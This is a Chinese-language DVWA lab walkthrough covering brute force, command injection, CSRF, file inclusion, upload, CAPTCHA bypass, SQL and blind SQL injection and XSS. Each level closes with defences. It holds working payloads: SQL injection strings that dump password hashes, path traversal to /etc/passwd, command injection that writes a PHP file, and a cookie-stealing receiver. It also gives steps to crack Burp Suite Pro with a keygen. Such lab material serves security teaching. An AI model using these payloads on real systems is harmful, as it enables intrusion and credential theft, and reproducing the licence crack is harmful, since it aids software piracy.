


## 环境搭建

**kali + docker**

```bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

打开网页 http://127.0.0.1/index.php

点击`Create / Reset database` 

Username：`admin` 	Password：`password` 

## 安装及配置BurpSuite

1. 下载所需要的文件

    [Releases · h3110w0r1d-y/BurpLoaderKeygen (github.com)](https://github.com/h3110w0r1d-y/BurpLoaderKeygen/releases)

​		[Burp Suite Release Notes (portswigger.net)](https://portswigger.net/burp/releases)

​    	[Java Downloads | Oracle](https://www.oracle.com/java/technologies/downloads/#java11)

2. 配置JDK11

   ```bash
   tar -xzvf jdk-8u191-linux-x64.tar.gz
   sudo cp -r jdk1.8.0_191 /opt
   cd /opt/jdk1.8.0_191
   touch ~/.local_profile #创建公共脚本
   vim ~/.local_profile #写入环境变量
   
   #install JAVA JDK11
    export JAVA_HOME=/opt/jdk-11.0.17
    export CLASSPATH=.:${JAVA_HOME}/lib
    export PATH=${JAVA_HOME}/bin:$PATH
   
   source /etc/profile
   source ~/.zshrc # 使环境生效
   java -version # 验证是否成功
   ```

3. 破解bs

   1. 将文件拷贝到`/usr/bin`目录中

      ```bash
      sudo cp -r BurpLoaderKeygen.jar burpsuite_pro_v2022.9.5.jar /usr/bin
      ```

   2. 激活

      进入`/usr/bin`

      ```
      cd /usr/bin
      ```

      启动激活程序(jar程序启动通用命令)

      ```
      java -jar BurpLoaderKeygen.jar 
      ```

      点击run

      点击next

      点击Manual activation完成手动激活

   3. 启动

      `java -javaagent:/usr/bin/BurpLoaderKeygen.jar -noverify -jar /usr/bin/burpsuite_pro_v2022.9.5.jar`

4. 配置bs代理


## 密码爆破	

### low

提交请求，使用bs抓包



观察提交网址 `http://127.0.0.1/vulnerabilities/brute/?username=admin&password=password&Login=Login#`  

可知道在`/vulnerabilities/brute/`路径下找到包内容


使用bs内置的工具 Intruder (入侵者)


标记需要替换的内容，不需要替换的取消标记


告诉bs以何种方式替换（攻击类型）以及替换成什么数据（字典）


- Sniper

  替换一个参数

- Battering ram

  适合多个参数的值相同

- Pitchfork 

  多个参数值不同

- Cluster bomb

  多个参数值不同，全排列

给username添加尝试数据


给password添加尝试数据


开始攻击


找出结果，一般情况下正确结果的返回报文长度更长


### medium

**源码分析**

对比low和medium的源码


因此，我们还是可以使用low级别的爆破方式来对密码进行爆破

攻击并找出结果


### high

尝试输入错误密码，观察网址

`http://127.0.0.1/vulnerabilities/brute/?username=a&password=a&Login=Login&user_token=eef7206a4c0369e0d16c776f9fed38b7#` 

会发现多出了一个参数`user_token`

将该网址在新标签页中打开，会发现提示token不正确的提示，并且也没有提示密码是否错误


那么，token哪来的？

**源码分析**


anti-csrf token 一种常见的web应用安全机制，类似验证码和带token的表单

> 表单1提交的时候会生成token2，并将这个token2和表单2绑定，当表单2提交就会生成token3，与表单3绑定，以此类推

因此，我们需要知道初始token，在submit之后自动采集新的token，并附带到下一次的submit。

那么如何得到初始token？如何采集新token？

设定为Pitchfork模式，因为每次token不同，不能使用Cluster bomb模式

选定username、password、user_token三个替换点

因为每次user_token需要从上次的回应中获取，因此数据列表不能继续使用Simple List类型，得换成Recursive grep


如何定位token？通过检查元素可以找到


至此，获取了初始token，然后将其填入Payloads


点击Options， 因为要顺序发送请求，所以要把线程数调到1


接下来要获取新产生的token，将其放入下一次请求报文中


开始攻击，查看结果


### impossible

分析源代码


同一个账号可以尝试三次密码，超过三次会锁定15分钟

### 总结与防御

​		由于服务器没有对用户的输入次数进行限制，导致攻击者可以利用爆破的手段来进行攻击，通过穷举法将用户名、密码等信息爆出来。当攻击者结合社会工程学生成了庞大的字典时，爆破攻击的可能性将会被增大。对于爆破漏洞，开发者可以对用户的登陆次数设置阈值，当某用户名表示的用户的登录次数在一定时间内超过阈值时，就暂时锁定用户。也可以进行 IP 检测，如果某个 IP 的登录次数超过阈值也可以锁定 IP。当然还有一种我们熟悉的方式，就是设置只有人可以通过验证的验证码或者是其他的验证手法，来保证进行登录操作的是人而不是机器。

## command injection命令注入

### low

猜测其直接调用系统命令，直接输入baidu.com&&ls，可以看到ls命令也被运行了


### medium

输入baidu.com&&ls，没有结果

**分析源码**

可以看到他是做了简单的替换，把&&变成&或者|就可以了


发起攻击


### high

查看源码，可以看到它只过滤了`|+空格` ，因此只写一个|也是可以绕过的


发起攻击


### impossible

输入baidu.com都不行了


将输入的信息以`.`分割成四份，分别判断是否是数字

### 总结与防御

​		在一些 Web 程序中需要调用一些执行系统命令的函数，例如 PHP 的 system、exec、shell_exec 函数等。当攻击者能够直接操作命令执行的参数，并且没有代码对传入的参数进行过滤时，攻击者就能将用于搞破坏的系统命令夹带进来让系统执行。
在 Windows 系统和 Linux 系统中都有一些管道符，这些管道符可以被用来拼接攻击指令：

- “&&”：前面的语句正确执行时，才执行后面的语句；
- “&”：前面的语句执行出错时，执行后面的语句；
- “|”：将前面的语句运行的结果，当做后面语句的输入，显示后面语句的执行结果；
- “||”：前面的语句出错时，执行后面的语句。

​		对于指令注入漏洞，比较好的防御方式是尽可能别用命令执行函数，对于输入的参数要做好黑名单过滤或者白名单验证。

## 跨站请求伪造 CSRF

> `CSRF` 全称 `Cross Site Request Forgery，跨站点请求伪造`，攻击者通过跨站请求，以合法的用户身份进行非法操作，如转账交易、发表评论等。其核心是利用了浏览器 `Cookie` 或服务器的 `Session` 策略，盗取用户的身份信息

### low

抓包查看


此时在另一个窗口打开这个链接，是可以打开该页面的。但是如果换一个浏览器就不可以


因此该攻击的难点在于诱骗受害者点击具有转账或者修改功能的链接

### medium

查看源码


因此我们需要从本站诱导用户点击带有`HTTP_REFERER` 的链接

这可以结合XSS来实现，先在本站下新建一个具有XSS漏洞的文件，这可以通过命令注入实现，以提供基础条件

`127.0.0.1|echo "<?php echo $_GET['x'];" > /var/www/html/vulnerabilities/csrf/xss.php`

这个页面会显示接收的参数，但是如果在里面写入代码，就会被解析

例如`http://127.0.0.1/vulnerabilities/csrf/xss.php?x=%3Cimg%20src=%221%22%3E` 


 

查看请求记录，可以看到src=1被请求了，并且相应的信息也都是携带的

那么，我们就可以将其变为修改密码的请求链接，即

```http
http://127.0.0.1/vulnerabilities/csrf/xss.php?x=

还需要编码
http%3A%2F%2F127.0.0.1%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword%26password_conf%3Dpassword%26Change%3DChange

即最终的链接为
http://127.0.0.1/vulnerabilities/csrf/xss.php?x=
```

发起请求


可以看到修改密码的请求状态码为200，表示攻击成功


### high

获取请求链接，发现多了一个参数`user_token` 

```http
http://127.0.0.1/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change&user_token=aab541b1f7939ab38e862c7f5c565a0e
```

同样需要xss注入，这次请求图片已经不够用了，需要请求.js文件，里面编写代码，获取token并发起修改密码请求


### impossible


我都知道当前密码了，为什么还用这个漏洞，因此这是impossible

### 总结与防御

​		CSRF 跨站请求伪造攻击是攻击者利用目标用户的身份，以目标用户的名义执行某些错误操作的攻击方式，会极大地威胁用户的权益。CSRF 攻击的 2 个重点是：

1. 目标用户登录了网站，并且能正常执行该网站的操作；
2. 目标用户访问了攻击者制作的攻击页面。

​		CSRF 漏洞的防御方式是验证请求的 Referer 字段值，如果该字段值是以自己的网站开头的域名，则说明该请求是来源于自己，就可以通过验证进行访问。当该字段值是其他网页的域名或者空白时，就说明这有可能是 CSRF 攻击，这时候就应该拒绝这个请求。
​		不过这种方法能起到的作用有限，因为攻击者可以用其他方式绕过验证。还有一种更合适的方式是在请求中放入攻击者不能够伪造的信息，例如使用 Anti-CSRF token 机制，让访问者需要通过一个随机生成的 token 进行验证。还有可以通过一些密保问题，因为这些问题的答案理论上只有访问者自己知道，攻击者也无法伪造。

## 文件包含 File Inclusion

### low


并没有做其他的过滤，因此输入的只要是个文件路径都可以被查看，借此可以看到其他敏感文件

比如输入`http://127.0.0.1/vulnerabilities/fi/?page=../../../../../../../../../../../../etc/passwd` 


### medium

分析源码


只是一个简单的过滤，`http://127.0.0.1/vulnerabilities/fi/?page=....//....//....//....//....//....//....//etc/passwd` 


可以看到，这样也是可以访问的

> 除了查看文件，还可以远程下载文件，或者打开网页，下载文件的同时是可以执行文件的，如果文件中是一句话木马，那么终端控制权就会到手


### high

限制上传的文件名只能以file开头


php有一个函数也是以file开头的，可以借此查看其他的文件


### impossible

限制了只能输入四个允许文件名


### 总结与防御

​		为了更好地使用代码的重用性，可以使用文件包含函数将文件包含进来，直接使用文件中的代码来提高重用性。但是这也产生了**文件包含漏洞**，产生原因是在通过 PHP 的函数引入文件时，为了灵活包含文件会将被包含文件设置为变量，通过动态变量来引入需要包含的文件。此时用户可以对变量的值可控，而服务器端未对变量值进行合理地校验或者校验被绕过，就会导致文件包含漏洞。常用的文件包含函数有 include()、include_once()、require()、require_once()。
​		包含漏洞分为本地包含和原创包含 2 类，当包含的文件在服务器本地时，就形成了本地文件包含。文件包含可以包含任意文件，被包含的文件可以不是 PHP 代码，可以是文本或图片等。只要文件被包含就会被服务器脚本语言执行，如果包含的文件内容不符合 php 语法，会直接将文件内容输出。例如下面这段简易的代码：

```php
Copy Highlighter-hljs<?php
    $file = $_GET['file'];
    include($file);
?>
```

当包含的文件在远程服务器上时，就形成了远程文件包含。所包含远程服务器的文件后缀不能与目标服务器语言相同，远程文件包含需要在 php.ini 中设置：

```ini
Copy Highlighter-hljsallow_url_include = on（是否允许 include/require 远程文件）
allow_url_fopen = on（是否允许打开远程文件）
```

## 文件上传 File Upload

### low

唯一的限制条件就是文件大小，还是在前端，用F12改一下就可以了


###  medium


通过数据报获取信息，因此可以通过重放数据报来达到上传其他类型文件的目的


可以看到可以通过校验的字段是`image/png` 或`image/jpeg`

尝试上传其他类型文件

使用bs拦截并修改报文


成功上传


尝试访问


未报错，攻击成功


### high

源码分析

```php
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

  以上代码审查了文件后缀、文件大小、图片是否是真的，因此需要上传真正的、可以打开的图片文件，因此需要上传图片木马。
  如何在图片中写入恶意代码？
      可以在图片中的注释信息添加php代码，这样php的include函数解析二进制文件时发现这是php代码，就会执行它。
      借助小工具edjpgcom可以嵌入恶意代码
  这样木马图片就可以被成功上传，但是想要执行，还是需要文件包含漏洞
```


### impossible

源码分析

1. 加入user_token

2. 生成md5作为新的文件名，并且成功上传的时候不会显示路径，只有名字

   

   ```php
       $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
   ```

3. 限制文件后缀、大小，以及检查是否能打开

4. 满足以上要求的图片会被重写，注释全被删除，只留下图片本身的信息，以及销毁源图片。

   ```php
   // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
           if( $uploaded_type == 'image/jpeg' ) {
               $img = imagecreatefromjpeg( $uploaded_tmp );
               imagejpeg( $img, $temp_file, 100);
           }
           else {
               $img = imagecreatefrompng( $uploaded_tmp );
               imagepng( $img, $temp_file, 9);
           }
           imagedestroy( $img );
   
   ```

### 总结与防御

​		在向网页上传文件时，如果服务器端代码未对客户端上传的文件进行严格的验证和过滤，就容易被上传上来的脚本文件等木马攻击。这类脚本称之为 WebShell，用户可以利用这种恶意脚本查看服务器目录、修改服务器文件和执行系统命令等。
为了防御这种攻击，可以使用白名单判断文件类型和后缀是否合法，同时对上传后的文件进行重命名防止被攻击者利用。


## nsecure CAPTCHA （不安全的验证码）

配置文件

```php
vim /var/www/html/config/config.inc.php

 $_DVWA[ 'recaptcha_public_key' ]  = '6LdK7xITAAzzAAJQTfL7fu6I-0aPl8KHHieAT_yJg';
$_DVWA[ 'recaptcha_private_key' ] = '6LdK7xITAzzAAL_uw9YXVUOPoIHPZLfw2K1n5NVQ';

docker cp D:\config.inc.php d45:/var/www/html/config/config.inc.php
```


### low

发起请求，抓包查看请求参数

```http
step=1&password_new=1&password_conf=1&Change=Change
```

可以看到除了密码外，还有step和Change两个参数，可以推断这两个参数就是验证方法

而这两个参数都是可以通过抓包重放修改的，这里就将1改为2


攻击成功

源码分析，主要以两个if判断分为两个部分只要step为2，就可以修改成功

```php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) // 修改失败
//The CAPTCHA was incorrect. Please try again.

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) // 修改成功
//echo "<pre>Password Changed.</pre>";
```

### medium

```http
step=1&password_new=1&password_conf=1&g-recaptcha-response=&Change=Change
```

新增参数recaptcha-response

**源码分析**

发现多了对`passed_captcha`的判断，这同样是可以通过抓包重放修改的

```php
if( !$_POST[ 'passed_captcha' ] ) {
        $html     .= "<pre><br />You have not passed the CAPTCHA.</pre>";
        $hide_form = false;
        return;
    }
```

发起攻击

将参数改为

```html
step=2&password_new=1&password_conf=1&Change=Change&passed_captcha=true
```

### high

抓包找参数

```html
step=1&password_new=1&password_conf=1&g-recaptcha-response=&user_token=b40afe8549509540f680f64bbed5d3cf&Change=Change
```

**源码分析** 

```php
if (
        $resp || (
            $_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
            && $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
        )
    )
```

同样是抓包修改参数`HTTP_USER_AGENT`和`g-recaptcha-response` 

```http
User-Agent: reCAPTCHA

step=1&password_new=1&password_conf=1&g-recaptcha-response=hidd3n_valu3&user_token=73c5e811ef332d2556e6a7b87151ff2c&Change=Change
```

攻击成功

### impossible


同样的，我都知道当前密码了，还破解什么


## SQL Injection（SQL注入）

> 联合查询注入、报错注入、时间盲注、布尔盲注

### low

> 报错注入

1. 先确定有没有报错信息

   输入'1'，可以看到错误信息

   

   因此可以使用报错注入

2. 使用函数`updatexml()`和`concat()`构造sql语句

   > updatexml()可以将报错信息返回
   >
   > concat()本身是一个字符串拼接函数，同时可以执行SQL语句

   ```sql
   -- 发起请求的模式 只需要修改'abc'即可
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',('abc'),'!'),1) -- &Submit=Submit
   ```

   报错信息形如

   

3. 获取当前以及其他所有数据库

   ```sql
   -- 当前
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   database()
   ),'!'),1) -- &Submit=Submit
   
   -- 返回信息：XPATH syntax error: '!dvwa!'
   
   -- 其他
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select schema_name from information_schema.schemata limit 0,1
   ),'!'),1) -- &Submit=Submit
   
   -- limit 0,1 返回信息：XPATH syntax error: '!dvwa!'
   -- limit 1,1 返回信息：XPATH syntax error: '!information_schema!'
   ```

   

4. 获取指定数据库中的表

   ```sql
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select table_name from information_schema.tables where table_schema='dvwa' limit 1,1
   ),'!'),1) -- &Submit=Submit
   
   -- XPATH syntax error: '!guestbook!'
   -- XPATH syntax error: '!users!'
   ```

   

5. 获取指定库中指定表的字段

   ```sql
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 3,1
   ),'!'),1) -- &Submit=Submit
   
   --limit 3,1 > XPATH syntax error: '!user!'
   --limit 4,1 > XPATH syntax error: '!password!'

6. 获取指定库中指定表指定字段的值

   ```sql
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select user from dvwa.users limit 0,1
   ),'!'),1) -- &Submit=Submit
   
   -- XPATH syntax error: '!admin!'
   
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('',(
   select password from dvwa.users limit 0,1
   ),''),1) -- &Submit=Submit
   
   -- XPATH syntax error: 'f4dcc3b5aa765d61d8327deb882cf99'
   
   ```

   

   至此，攻击成功

### medium

中级难度改成了下拉选择框，这属于前端校验，还需要看看后端校验


**源码分析**

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

可以发现多了该行代码，作用是对SQL语句中的单引号和双引号进行转义，转义后就变为了普通的字符，不具备本来的功能了

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

还可以发现`id`变为了数字型

**解决办法：** 使用十六进制，将所有引号删除，并将其中的句子转为十六进制

**发起攻击** 

```sql
-- 原语句
id=' and updatexml(1,concat('',(select password from dvwa.users limit 0,1),''),1) -- &Submit=Submit

-- 修改后
id=2 and updatexml(1,concat((select password from dvwa.users limit 0,1)),1)&Submit=Submit
```

**攻击成功**


### high

**源码分析**

1. 前端校验，弹出了一个新的框，使得机器测试无效，但是依旧可以手工注入
2. 后端校验
   1. 依旧对输入的id不做任何校验
   2. 关闭了报错提示，因此无法使用报错注入，但是可以使用**联合查询注入** 


> group_concat() 函数把查询结果合并成一个字符串返回
>
> 1 or 1 = 1 union select group_concat(user_id),group_concat(password) from users #
>
> `1' union select group_concat(user),group_concat(password) from users #`


### impossible

查询被改为参数化查询（而不是动态的），这意味着查询已由开发人员确切定义，并区分哪些部分是代码，哪些部分是数据。

Impossible 级别的代码采用了 PDO 技术，防止代码和查询数据的混杂。同时当返回的查询结果数量为一时才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken 机制的加入了进一步提高了安全性。


### 总结与防御

**SQL 注入攻击**就是 Web 程序对用户的输入没有进行合法性判断，从而攻击者可以从前端向后端传入攻击参数，并且该参数被带入了后端执行。在很多情况下开发者会使用**动态的 SQL 语句**，这种语句是在程序执行过程中构造的，不过动态的 SQL 语句很容易被攻击者传入的参数改变其原本的功能。
当我们进行**手工 SQL 注入**时，往往是采取以下几个步骤：

1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解SQL查询语句中的字段数；
3. 确定显示的字段顺序；
4. 获取当前数据库；
5. 获取数据库中的表；
6. 获取表中的字段名；
7. 下载数据。

当开发者需要防御 SQL 注入攻击时，可以采用以下方法。

1. **过滤危险字符**：可以使用正则表达式匹配各种 SQL 子句，例如 select,union,where 等，如果匹配到则退出程序。
2. **使用预编译语句**：PDO 提供了一个数据访问抽象层，这意味着不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。使用 PDO 预编译语句应该使用占位符进行数据库的操作，而不是直接将变量拼接进去。

##  SQL Injection Blind（SQL盲注）

> 布尔盲注：**bool 盲注**是在不知道 SQL 查询的返回值，但是知道查询是否成功的情况下，猜测数据库中的敏感信息的手法。
>
> 时间盲注： 提交对执行时间敏感的函数sql语句，或者使用if语句，通过执行时间的长短来判断是否执行成功，比如:正确的话会导致时间很长，错误的话会导致执行时间很短。
>
> 经常使用的函数

```sql
mid(str,start,length)  :字符串截取
ORD()    ascii         :转换成ascii码
Length()               :统计长度
version()              :查看数据库版本
database()             :查看当前数据库名
user()                 :查看当前用户

Sleep()                           :延迟函数
If(condition,true,false)          :条件语句
```

### low

#### 使用sqlmap

```sqlmap
# 1.查询是否存在注入点
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit"
# 2.检测站点包含哪些数据库
-dbs
# 3.获取当前数据库名
-current-db
# 4.获取指定数据库中的表名
-tables -D 'db_name'
# 5.获取表中的字段
-columns -T 'table_name' -D 'db_name'
# 6.获取字段的内容
–dump -C “columns_name” -T “table_name” -D “db_name” 
```

```sql
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=95olg0v4v82ig83g1uv5kkscq2" --batch
```


```sql
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=95olg0v4v82ig83g1uv5kkscq2" --batch --dbs
--current-db
```


 

```sql
--batch -D dvwa -T users -C "user,password" -dump
```


### medium

> 从中级难度开始，sqlmap就找不出注入点了

**判断注入类型**  字符 or 数字

```sql
-- 若服务器响应时间大于 3 秒，说明 sleep() 函数被执行
1 and sleep(3) # 数字
1' and sleep(3) # 字符
```


**获取数据库名**

1. 先获取长度

   ```sql
   id=1 and length(database())=4 # &Submit=Submit
   	or
   id=1 and if(length(database())=4,sleep(3),1) # &Submit=Submit
   ```

   返回exits或发生延时，说明长度为4

   

2. 再逐个尝试具体的字符（有单引号的地方都需要被替换，这里使用ASCII码）

   ```sql
   -- 采用二分法的方式逼近答案
   -- >a
   id=1 and ascii(substr(database(),1,1))>97# &Submit=Submit
   -- <z
   id=1 and ascii(substr(database(),1,1))<123# &Submit=Submit
   -- <n
   id=1 and ascii(substr(database(),1,1))<110# &Submit=Submit
   
   -- 时间盲注 形如
   id=1 and if((ascii(substr(database(),1,1))<110),sleep(3),1)# &Submit=Submit

​		以此类推可以得出结果dvwa

**猜表的个数**

```sql
id=1 and (select count(table_name) from information_schema.tables where table_schema=0x64767761)=2# &Submit=Submit
```

**猜表的表名长度**

```sql
id=1 and length(substr((select table_name from information_schema.tables where table_schema=0x64767761 limit 0,1),1))=9# &Submit=Submit
```


**猜表名**

```sql
id=1 and ascii(substr((select table_name from information_schema.tables where table_schema=0x64767761 limit 1,1),1))=117#
```


### high

**分析源码** 

1. 弹出新框，不能使用脚本

2. 随机等待时间，不能使用时间盲注，但是还是可以用布尔盲注

   ```php
   if( rand( 0, 5 ) == 3 ) {
               sleep( rand( 2, 4 ) );
           }
   ```


### impossible

使用**预编译语句** 

### 总结与防御

**SQL 注入攻击**就是 Web 程序对用户的输入没有进行合法性判断，从而攻击者可以从前端向后端传入攻击参数，并且该参数被带入了后端执行。在很多情况下开发者会使用**动态的 SQL 语句**，这种语句是在程序执行过程中构造的，不过动态的 SQL 语句很容易被攻击者传入的参数改变其原本的功能。SQL 盲注入与普通 SQL 注入相同，只是当攻击者试图利用应用程序进行攻击时，得到的不是有用的报错信息，而是开发人员指定的通用页面。
当我们进行**SQL 盲注**时，往往是采取以下几个步骤：

1. 判断是否存在注入，注入是字符型还是数字型；
2. 猜解当前数据库名；
3. 猜解数据库中的表名；
4. 猜解表中的字段名；
5. 猜解数据。

防御 SQL 注入攻击，可以采用以下方法。

1. 过滤危险字符
2. 使用预编译语句

##  XSS（Reflected）（反射型跨站脚本）

### low

分析源码可以发现，服务器只是判断了 name 参数是否为空，如果不为空的话就直接打印出来。服务器并没有对 name 参数做任何的过滤和检查，存在明显的 XSS 漏洞。

1. 偷取cookies

```js
<script>alert(document.cookie)</script>
```


### medium

**源码审计** 

对`<script>` 进行简单的替换，可以通过双写绕过

```php
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );
```

**发起攻击**

```php
<script>alert(document.cookie)</script>
    改为
<scr<script>ipt>alert(document.cookie)</scr<script>ipt>
```


### high

**源码审计** 

```php
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
```

可以不用`<script>`标签 

**发起攻击** 

```php

```


### impossible

**源码审计**

```php
    // Check Anti-CSRF token
checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php' );
    // Get input
    $name = htmlspecialchars($_GET['name']);
```

1. **htmlspecialchars()** 函数用于把预定义的字符 "<" 和 ">" 转换为 HTML 实体，防止了我们注入 HTML 标签。
2. 加入 Anti-CSRF token 防护 CSRF 攻击

### 总结与防御

​		**跨站脚本 (Cross-Site Scripting)** 是一种针对 Web 程序的代码注入型漏洞攻击，它允许攻击者将恶意脚本注入网页，使得其他用户浏览网页时收到影响。所谓**反射型 XSS** 就是提交了恶意脚本实现的 XSS 仅对这次访问产生了影响，并非持久性的 XSS 攻击。
​		XSS 的攻击方式为攻击者请求一个带有 payload 的 URL，服务器的响应不会以任何形式包含攻击者的脚本。XSS 漏洞的修复方式有以下 2 种：

1. **过滤输入的字符**，例如 “ ' ”，“ " ”，“<”，“>” 等非法字符；
2. 对输出到页面的数据进行**编码**。

##  XSS（Stored）（存储型跨站脚本）

> **存储型 XSS** 存储在数据库中，直到数据库被重置或者负载被手动删除。

### low

**源码审计** 

> 输入一个名字和一段文本，然后网页把输入的信息加入到数据库中，同时服务器也会将服务器的内容回显到网页上。 

```php
<?php

if(isset($_POST['btnSign'])){
    // Get input
    // trim(string,charlist) 函数用于移除字符串两侧的空白字符或其他预定义字符
    $message = trim($_POST['mtxMessage']);
    $name    = trim($_POST['txtName']);

    
    // stripslashes() 函数用于删除反斜杠，可用于清理从数据库中或者从 HTML 表单中取回的数据。
    $message = stripslashes($message);
  	// mysqli_real_escape_string() 函数用于对字符串中的特殊字符进行转义，使得这个字符串是一个合法的 SQL 语句。
    // GLOBALS 是引用全局作用域中可用的全部变量，是一个包含了全部变量的全局组合数组。
    // Sanitize message input
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

由于对输入内容没有任何过滤，因此可以注入任意的代码

尝试以下代码，发现不行

```js
<script>alert('document.cookie')</script>
```


因为使用了`trim(string,charlist)`，所以并没有cookie弹出，将字符串**编码**即可

```js
<script>alert(0x646F63756D656E742E636F6F6B6965)</script>

```


**在另一台攻击机上获取靶机的cookie** 

1. 新建一台攻击机，端口设为4567

   ```bash
   docker run --rm -it -p 4567:80 vulnerables/web-dvwa
   ```

2. 在该攻击机指定路径写入脚本cookie.php

   > 该脚本能够获取cookie并存入`./cookie.txt` 

   ```php
   <?php
       $cookie = $_GET['cookie'];
       $ip = getenv('REMOTE_ADDR');
       $time = date('Y-m-d g:i:s');
       $ref =getenv('HTTP_REFERER');
       $fp = fopen('cookie.txt','a');
       fwrite($fp," IP: " .$ip. "\r\n Time: " .$time. "\r\n Referer: " .$ref. "\r\n $cookie: " .$cookie. "\r\n-------------\r\n");
       fclose($fp);
   ?>
   ```

   ```bash
   docker cp D:\cookie.php 4a8:/var/www/html
   ```

3. 发起攻击，在靶场写入

   ```html
   <script>document.write('');</script>
   ```

4. 回到攻击机下查看`/var/www/html/cookie.txt`

   ```bash
   cat /var/www/html/cookie.txt
   ```

   

   

### medium

**源码审计**

1. **addslashes() 函数**在每个双引号前添加反斜杠，返回在预定义字符之前添加反斜杠的字符串。

2. **strip_tags()** 函数用于剥去字符串中的 HTML、XML 以及 PHP 的标签

3. **htmlspecialchars() 函数**用于把预定义的字符 "<" 和 ">" 转换为 HTML 实体。

4. Message 参数对所有的 XSS 都进行了过滤

5. name 参数只是过滤了 < script > 标签

   因此，我们可以对 name 参数进行注入。

**修改前端限制的长度** 


**构造注入语句**

> 使用双写或者大写绕过

```js
<SCRIPT>alert(0x646F63756D656E742E636F6F6B6965)</SCRIPT>
<sc<script>ript>alert(0x646F63756D656E742E636F6F6B6965)</sc<script>ript>
```

攻击成功


### high

**源码审计**

**preg_replace()** 函数执行一个正则表达式的搜索和替换，“*” 代表一个或多个任意字符，“i” 代表不区分大小写。也就是说 name 参数 “< script >” 标签在这里被完全过滤了，但是我们可以通过其他的标签例如 img、body 等标签的事件或者iframe 等标签的 src 注入 JS 攻击脚本

**构造语句** 

```js

```

 

### impossible

**源码审计**

1. 使用内置的PHP函数（例如 “htmlspecialchars()”），可以转义任何会改变输入行为的值。
2. 源码在 high 级别的基础上对 name 参数也进行了更严格的过滤，导致 name 参数也无法进行 JS 脚本注入
3. 加入 Anti-CSRF token 防护 CSRF 攻击，进一步提高安全性。

### 总结与防御

​		**跨站脚本 (Cross-Site Scripting)** 是一种针对 Web 程序的代码注入型漏洞攻击，它允许攻击者将恶意脚本注入网页，使得其他用户浏览网页时收到影响。所谓**存储型 XSS** 又称为持久型 XSS，攻击脚本会被永久保存在目标服务器的数据库或文件中，具有更高的隐蔽性。
